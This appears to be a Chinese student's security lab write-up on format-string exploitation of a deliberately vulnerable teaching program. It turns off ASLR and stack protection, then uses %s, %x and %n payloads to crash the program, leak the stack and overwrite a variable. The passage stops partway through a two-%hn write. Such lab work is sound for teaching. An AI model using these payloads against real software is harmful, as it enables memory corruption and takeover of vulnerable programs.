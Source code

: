 #### 信息系统安全lab1

##### 零、环境配置

~~~bash
sudo sysctl -w kernel.randomize_va_space=0 //关闭ASLR
gcc -fno-stack-protector prog1.c
gcc -z execstack -o prog1 prog1.c
~~~

##### 一、针对prog1，完成以下任务

改变程序的内存数据：将变量 var 的值，从 0x11223344变成 0x66887799；变成0xdeadbeef。

1.环境配置

~~~bash
sudo sysctl -w kernel.randomize_va_space=0 //关闭ASLR
gcc -fno-stack-protector prog1.c
gcc -z execstack -o prog1 prog1.c
~~~

2.输入%s段崩溃

~~~bash
./prog1
%s%s%s%s%s
~~~

![image-20230612125029218](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612125029218.png)

3.利用%x打印栈中数据

~~~bash
./prog1
%x.%x.%x.%x.%x.%x
~~~

![image-20230612125126713](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612125126713.png)

看到存放0x11223344的目标地址在第五个%x处

4.使用%n改变内存的值

之前已经得到0x11223344在第五个%x处，且得到目标地址是0xbfffed54，由此将地址写入文件之中，直接从文件中输入。看看0xbfffed54能否被修改输出。

~~~bash
echo $(printf "\x54\xed\xff\xbf").%x.%x.%x.%x.%x.%n > input.txt
./prog1 <input.txt
~~~

![image-20230612130002283](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612130002283.png)

成功将目标地址的值修改为0x2c，正好是已经输出的44个字符的长度。

5.将目标地址的值改成0x66887799

使用两个%hn快速修改target的值，每个部分各两个字节，低端字节地址是0xbfffed54，需要改成0x7799；高端字节地址是0xbfffed56，需要改成0x6688.

0x6688=26248 ；26248-44=26204；
